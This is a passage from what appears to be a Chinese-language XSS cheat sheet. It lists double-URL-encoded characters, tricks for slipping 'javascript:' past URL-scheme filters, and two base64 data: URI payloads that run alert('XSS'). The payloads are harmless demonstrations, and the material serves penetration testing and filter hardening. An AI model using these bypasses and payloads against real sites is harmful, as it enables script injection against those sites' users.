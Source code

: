 
|Char | Double encoded |
| :---: | :---: |
| `<` | `%253C` |
| `>` | `%253E` |
| `(` | `%2528` |
| `)` | `%2529` |
| `"` | `%2522` |
| `'` | `%2527` |

----------------

## 繞過 URL Schema 過濾器
比方說，你有機會將 data 注入到接觸到 URL 中
- 比如 `location.href`，但是它被過濾了
- 這是可以嘗試繞過它的事情的列表
- 歸功於 [XSS Exploitation in Django Applications](https://tonybaloney.github.io/posts/xss-exploitation-in-django.html) 這篇好文章



其中一些與瀏覽器有關。在依賴它之前，先單獨嘗試你的 payload:
| 技巧 | 舉例 | |
| 區分大小寫 | `JaVaScript:alert(1)` | URL protocol 是**不區分大小寫**|
| protocol 內插入一些空白 | `javas cript:alert(1)` | tab `(0x9)`, newline `(0xa)` and carriage return `(0xd)` 允許在 protocol 中的任何位置 |
| protocol 前面放空白 | `javascript:alert(1)` | 字符 `\x01-\x20` 可以在插入在 protocol 之前 |
| 冒號前、protocol 後的一些空白 | `javascript :` | tab `(0x9)`, newline `(0xa)` and carriage return `(0xd)` allowed anywhere after the protocol |

 
### Mime type exploitation
如果你能通過設置 URL（例如通過 `location.href` 或 `<a />` 的 `href`）或其他方式迫使 browser 載入 data
- 你就能執行 javascript
- 在 Firefox 中，這些被視為與原網頁 same domain
- 但 Chrome 中則不然

不管怎麼說，這可能會導致一些危險的結果，下面解釋一下:
- 如果你不熟悉，你可以通過將這些 payload 貼到 browser URL 中測試
- 它們都只是做了一個 `alert('XSS')`
- 如果你想謹慎點，你可以通過使用 base64 decoder 對 payload 進行驗證


```
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk7PC9zY3JpcHQ+
```
```
data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlhTUyIpOzwvc2NyaXB0Pjwvc3ZnPg==
```
